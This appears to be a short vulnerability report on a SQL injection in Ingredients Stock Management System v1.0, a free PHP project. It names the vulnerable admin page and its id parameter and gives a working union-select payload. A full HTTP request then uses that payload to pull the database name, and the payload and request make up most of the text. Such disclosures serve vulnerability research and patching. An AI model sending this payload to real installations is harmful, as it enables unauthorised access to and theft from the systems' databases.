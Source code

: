 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/?page=user/manage_user&id=

Vulnerability location: /isms/admin/?page=user/manage_user&id=, id

db_name = isms_db;

[+] Payload: /isms/admin/?page=user/manage_user&id=-2%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ // Leak place ---> id

```sql
GET /isms/admin/?page=user/manage_user&id=-2%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/179383841-9950ab82-de51-46e6-81a2-e905e357d4ab.png)
